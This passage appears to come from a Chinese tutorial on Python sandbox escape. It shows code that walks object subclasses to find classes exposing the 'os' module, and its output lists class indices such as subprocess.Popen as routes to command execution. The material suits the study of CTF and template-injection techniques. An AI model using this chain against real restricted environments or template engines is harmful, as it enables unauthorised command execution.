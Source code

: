 ### 尝试命令执行

通过 空字符串`''`，空字典 `{}`，空数组`[]`，空集合`()`等作为出发点，来寻找 `os`类和其他类，进而执行命令

```python
print(type(''))
print(type({}))
print(type([]))
print(type(()))
----------------------
<class 'str'>
<class 'dict'>
<class 'list'>
<class 'tuple'>
```

通过代码来找 空集合的那个类有 OS 类

```python
search = 'os'   # 也可以是其他你想利用的模块
num = -1
for i in ().__class__.__bases__[0].__subclasses__():
    num += 1
    try:
        if search in i.__init__.__globals__.keys():
            print(i, num)
    except Exception as e:
        pass
  
----------------------
<class 'inspect.BlockFinder'> 214
<class 'inspect.Parameter'> 217
<class 'inspect.BoundArguments'> 218
<class 'inspect.Signature'> 219
<class 'logging.LogRecord'> 232
<class 'logging.PercentStyle'> 233
<class 'logging.Formatter'> 234
<class 'logging.BufferingFormatter'> 235
<class 'logging.Filter'> 236
<class 'logging.Filterer'> 237
<class 'logging.PlaceHolder'> 238
<class 'logging.Manager'> 239
<class 'logging.LoggerAdapter'> 240
<class 'pathlib._Flavour'> 244
<class 'pathlib._Selector'> 246
<class 'subprocess.STARTUPINFO'> 258
<class 'subprocess.CompletedProcess'> 259
<class 'subprocess.Popen'> 260
<class 'gzip._PaddedFile'> 271
<class 'shlex.shlex'> 272
<class 'numpy.compat.py3k.contextlib_nullcontext'> 309
<class 'numpy.format_parser'> 319
<class 'numpy._pytesttester.PytestTester'> 331
<class 'numpy.lib.utils._Deprecate'> 341
<class 'numpy.lib._datasource._FileOpeners'> 342
<class 'numpy.DataSource'> 343
<class 'numpy.lib.npyio.BagObj'> 347
<class 'matplotlib.cbook._StrongRef'> 382
<class 'matplotlib.cbook.CallbackRegistry'> 383
<class 'matplotlib.cbook.Stack'> 384
<class 'matplotlib.cbook.Grouper'> 385
<class 'matplotlib.cbook._classproperty'> 386
<class 'uuid.UUID'> 387
<class 'matplotlib.rcsetup.ValidateInStrings'> 415
```

